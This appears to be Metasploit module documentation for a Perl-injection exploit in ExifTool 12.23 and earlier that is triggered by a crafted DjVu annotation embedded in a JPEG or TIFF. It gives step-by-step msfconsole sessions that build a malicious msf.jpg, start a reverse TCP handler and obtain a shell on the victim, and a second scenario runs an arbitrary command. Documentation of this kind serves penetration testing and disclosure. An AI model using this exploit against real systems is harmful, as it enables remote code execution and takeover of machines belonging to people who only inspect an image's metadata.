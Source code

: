 ## Vulnerable Application

ExifTool is vulnerable to Perl injection when parsing a crafted DjVu ANT (Annotation) section. Using the
'HasselbladExif' EXIF field, a DjVu file containing the ANT data can be embedded in another file, such as a JPEG or
TIFF file. Upon passing a crafted DjVu file or a "wrapped" DjVu file to ExifTool, arbitrary Perl code can be executed.

Perl backticks are used to execute shell commands.

The vulnerability affects ExifTool 7.44 through 12.23 inclusive.

A copy of the vulnerable software can be obtained at <https://github.com/exiftool/exiftool/releases/tag/12.23>

The `.tar.gz` can simply be unpacked and used as-is:

```plain
% tar -xf 12.23.tar.gz 

% ./exiftool-12.23/exiftool exiftool-12.23/t/images/Writer.jpg
ExifTool Version Number         : 12.23
File Name                       : Writer.jpg
Directory                       : exiftool-12.23/t/images
File Size                       : 251 bytes
File Modification Date/Time     : 2021:04:02 05:24:21+11:00
File Access Date/Time           : 2021:05:04 20:57:46+10:00
File Inode Change Date/Time     : 2021:05:04 20:57:46+10:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Image Width                     : 8
Image Height                    : 8
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 8x8
Megapixels                      : 0.000064
```

## Verification Steps

1. Obtain the vulnerable application
2. Start `msfconsole`
3. Do: `use exploit/unix/fileformat/exiftool_djvu_ant_perl_injection`
4. Set the payload and payload options as appropriate
5. Do: `exploit`
6. Start a handler
7. Transfer the generated `msf.jpg` file to the machine running the vulnerable application
8. On the victim machine, do `exiftool msf.jpg`
9. You should get a shell

## Options

* `TARGET` - you can choose between JPEG (Default), TIFF and DjVu
* `FILENAME` - the name of the image file to produce. Note that it is safe to rename a file after it has been generated.

## Scenarios

### ExifTool 12.23 - Reverse TCP shell

Generate the image file

```plain
msf6 > use exploit/unix/fileformat/exiftool_djvu_ant_perl_injection 
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf6 exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > set LPORT 4444
LPORT => 4444
msf6 exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > exploit

[+] msf.jpg stored at /home/justin/.msf4/local/msf.jpg
msf6 exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > 
```

Start a handler

```plain
msf6 exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444 
```

As the victim, use ExifTool to analyse the image

```plain
% ~/exiftool-12.23/exiftool /home/justin/.msf4/local/msf.jpg
```

ExifTool will hang and a shell session will be opened

```plain
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:38606) at 2021-05-04 21:07:37 +1000

id
uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo)
```

### ExifTool 12.23 - Arbitrary command execution

Generate the image file

```plain
msf6 > use exploit/unix/fileformat/exiftool_djvu_ant_perl_injection 
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > set PAYLOAD cmd/unix/generic 
PAYLOAD => cmd/unix/generic
msf6 exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > set CMD 'echo "Pwned as $(id)"'
CMD => echo "Pwned as $(id)"
msf6 exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > exploit

[+] msf.jpg stored at /home/justin/.msf4/local/msf.jpg
msf6 exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > 
```

As the victim, use ExifTool to analyse the image. The STDOUT of CMD will be reflected in the 'Author' EXIF field.

```plain
% ~/exiftool-12.23/exiftool /home/justin/.msf4/local/msf.jpg | grep Author
Author                          : .Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo).
```
